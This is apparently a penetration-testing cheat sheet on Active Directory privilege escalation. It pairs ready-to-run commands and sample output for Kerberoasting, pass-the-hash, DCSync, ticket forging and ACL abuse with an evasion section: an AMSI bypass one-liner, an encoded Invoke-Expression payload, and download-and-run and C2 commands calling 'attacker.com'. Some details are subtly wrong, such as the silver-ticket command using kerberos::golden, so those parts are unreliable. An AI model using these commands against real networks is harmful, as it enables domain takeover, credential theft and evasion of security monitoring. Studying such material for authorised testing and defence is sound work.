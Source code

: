 # Privilege Escalation in Active Directory Penetration Testing

## Overview
Privilege escalation involves elevating access from a low-privilege account (e.g., standard user) to a high-privilege account (e.g., Domain Admin) by exploiting AD misconfigurations or vulnerabilities.

## Detailed Methods and Techniques
- **Kerberoasting**:
  - **Technique**: Request TGS tickets for service accounts with SPNs and crack them offline.
  - **Execution**: Use `GetUserSPNs.py` from Impacket.
    ```bash
    GetUserSPNs.py -dc-ip 192.168.1.10 example.com/jdoe:P@ssw0rd123 -request
    ```
    **Example Output**:
    ```
    ServicePrincipalName: MSSQLSvc/sql01.example.com:1433
    Ticket: [TGS ticket data]
    ```
    - Crack with `hashcat`:
      ```bash
      hashcat -m 13100 ticket.hash /usr/share/wordlists/rockyou.txt
      ```
      **Example Output**:
      ```
      MSSQLSvc/sql01.example.com:1433:ServiceP@ss123
      ```
    - **Purpose**: Obtain service account credentials for escalation.
- **Unconstrained Delegation**:
  - **Technique**: Exploit accounts with unconstrained delegation to impersonate users.
  - **Execution**: Use `BloodHound` to identify delegation paths.
    ```bash
    bloodhound-python -u jdoe -p P@ssw0rd123 -d example.com -c All --dc 192.168.1.10
    ```
    **Example Output**: BloodHound GUI shows a path from `jdoe` to `Administrator` via delegation.
    - Exploit with `Rubeus`:
      ```bash
      Rubeus.exe monitor /interval:5 /filteruser:DC01$
      ```
      **Example Output**:
      ```
      [+] TGT for Administrator@EXAMPLE.COM obtained
      ```
    - **Purpose**: Gain Domain Admin access by impersonating a high-privilege user.
- **Group Policy Misconfigurations**:
  - **Technique**: Exploit GPOs that grant excessive permissions or execute scripts.
  - **Execution**: Use `PowerView` to enumerate GPOs.
    ```powershell
    Get-GPO -All | Select DisplayName,GPOStatus
    ```
    **Example Output**:
    ```
    DisplayName: LogonScript
    GPOStatus: Enabled
    ```
    - Check for scripts granting admin rights or weak permissions.
    - **Purpose**: Escalate privileges via misconfigured GPO settings.
- **ACL Abuse**:
  - **Technique**: Exploit misconfigured DACLs (e.g., GenericAll on users or groups).
  - **Execution**: Use `PowerView` to add a user to a privileged group.
    ```powershell
    Add-DomainGroupMember -Identity "Domain Admins" -Members jdoe
    ```
    **Example Output**:
    ```
    jdoe added to Domain Admins
    ```
    - **Purpose**: Gain Domain Admin privileges.
- **Pass-the-Hash**:
  - **Technique**: Use stolen NTLM hashes to authenticate as a privileged user.
  - **Execution**: Use `psexec.py`.
    ```bash
    psexec.py example.com/Administrator@192.168.1.10 -hashes :aad3b435b51404eeaad3b435b51404ee
    ```
    **Example Output**:
    ```
    [*] Connected to 192.168.1.10 as Administrator
    ```
    - **Purpose**: Escalate to admin on a target system.

## Exploitation Methods
- **DCSync Attack**:
  - **Technique**: Use high-privilege credentials to replicate AD objects, including password hashes.
  - **Execution**: Use `mimikatz` for DCSync.
    ```bash
    mimikatz # lsadump::dcsync /domain:example.com /user:Administrator
    ```
    **Example Output**:
    ```
    [DC] 'example.com' will be the domain
    [DC] 'DC01.example.com' will be the DC server
    Object RDN: Administrator
    ** SAM ACCOUNT **
    SAM Username: Administrator
    User Password: [NTLM hash]
    ```
    - **Purpose**: Extract Domain Admin credentials for full AD control.
- **Pass-the-Ticket**:
  - **Technique**: Use stolen Kerberos tickets to authenticate as a privileged user.
  - **Execution**: Use `mimikatz` to export tickets.
    ```bash
    mimikatz # sekurlsa::tickets /export
    ```
    **Example Output**:
    ```
    [0;123456] krbtgt/example.com TGT
    ```
    - Inject ticket:
      ```bash
      mimikatz # kerberos::ptt [ticket]
      ```
    - **Purpose**: Gain access as a high-privilege user without the password.
- **Silver Ticket**:
  - **Technique**: Forge a TGS ticket for a specific service using a service account’s NTLM hash.
  - **Execution**: Use `mimikatz`.
    ```bash
    mimikatz # kerberos::golden /user:jdoe /domain:example.com /sid:S-1-5-21-1234567890-0987654321-123456789 /target:sql01.example.com /service:cifs /rc4:aad3b435b51404eeaad3b435b51404ee
    ```
    **Example Output**:
    ```
    [*] Silver ticket created
    ```
    - **Purpose**: Gain access to a specific service (e.g., file shares).

## AV/AMSI Evasion Techniques
- **Obfuscated PowerShell**:
  - **Technique**: Obfuscate PowerView scripts to bypass AMSI.
  - **Execution**: Use `Invoke-Obfuscation`.
    ```powershell
    Invoke-Obfuscation -ScriptBlock {Add-DomainGroupMember -Identity "Domain Admins" -Members jdoe} -Technique Encode
    ```
    **Example Output**:
    ```
    $encoded = "JAB...=="
    Invoke-Expression ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($encoded)))
    ```
    - **Purpose**: Evade AMSI detection during privilege escalation.
- **In-Memory Execution**:
  - **Technique**: Execute escalation scripts in memory.
  - **Execution**: Use `Invoke-Expression`.
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/powerview.ps1')
    ```
    - **Purpose**: Avoid AV detection by not writing to disk.
- **AMSI Bypass**:
  - **Technique**: Disable AMSI via memory patching.
  - **Execution**:
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, [IntPtr]::Zero)
    ```
    - **Purpose**: Prevent PowerShell scripts from being scanned.
- **Encrypted C2 Channels**:
  - **Technique**: Use encrypted channels for ticket injection.
  - **Execution**: Use `Rubeus` with HTTPS C2.
    ```bash
    Rubeus.exe monitor /interval:5 /filteruser:DC01$ /target:https://attacker.com
    ```
    - **Purpose**: Evade network-based AV/EDR monitoring.

## Tools
- **Impacket**: Kerberoasting (`GetUserSPNs.py`).
- **BloodHound**: AD privilege path mapping.
- **PowerView**: GPO and privilege enumeration (`Get-GPO`, `Add-DomainGroupMember`).
- **Mimikatz**: DCSync and ticket attacks (`lsadump::dcsync`, `kerberos::ptt`).
- **Rubeus**: Kerberos ticket manipulation (`Rubeus.exe`).

## Best Practices
- Verify permission to perform escalation attacks to avoid unintended damage.
- Document all escalation paths for remediation recommendations.
- Use obfuscation and encryption to evade AV/AMSI.
- Securely handle sensitive data like hashes and tickets.